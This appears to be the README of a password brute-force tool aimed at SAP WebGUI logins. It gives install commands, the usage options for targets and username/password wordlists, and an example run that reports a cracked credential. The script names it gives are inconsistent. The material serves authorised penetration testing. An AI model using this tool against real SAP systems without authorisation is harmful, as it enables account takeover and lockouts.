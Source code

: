 # SAP WebGui brute-force script
This script does a simple brute-force attack against SAP WebGUI.
For that it can handle the SAP specific 'XSRF' Cookies and Request parameters.

A Metasploit version of this tool can be found in the folder: [metasploit-module](./metasploit-module)

## Installation

```bash
git clone https://gitlab.petersohn.it/jpetersohn/sap-webgui-bruteforce
cd sap-webgui-bruteforce
pip3 install -r requirements.txt

./brute_sap_webgui.py
```

## Usage

```
./sap_webgui_brute.py -h

  ___   _   ___  __      __   _               _   ___          _        __
 / __| /_\ | _ \ \ \    / /__| |__  __ _ _  _(_) | _ )_ _ _  _| |_ ___ / _|___ _ _ __ ___
 \__ \/ _ \|  _/  \ \/\/ / -_) '_ \/ _` | || | | | _ \ '_| || |  _/ -_)  _/ _ \ '_/ _/ -_)
 |___/_/ \_\_|     \_/\_/\___|_.__/\__, |\_,_|_| |___/_|  \_,_|\__\___|_| \___/_| \__\___|
                                   |___/

CAUTION: SAP allows max. 99 failed logins for a user!


usage: sap_webgui_brute.py [options]

This script does a simple Brute Force attack against SAP WebGUI. For that it can handle the SAP specific 'XSRF' Cookies and Request parameters.

optional arguments:
  -h, --help            show this help message and exit

Target:
  --sid SAP_SID         SAP System ID
  --target SERVER       IP/Hostname of Target Server
  --port PORT           HTTP Port of Target Server (default: 8000)
  --client CLIENT       Define the client to login to (default: 001)
  --url URL_PREFIX      Define URL prefix (default: sap/bc/gui/sap/its/webgui)
  --user-file USER_FILE
                        Path to file with usernames (one per line)
  --pass-file PASS_FILE
                        Path to file with password (one per line)
```
### Example:
```
./multi_brute_sap_webgui.py --sid FES --target 192.168.230.30 --user-file user.txt --pass-file passwords.txt

[*] Loading user wordlist...
[*] Loading password wordlist...
[+] Username/Password found: security:Security123
```
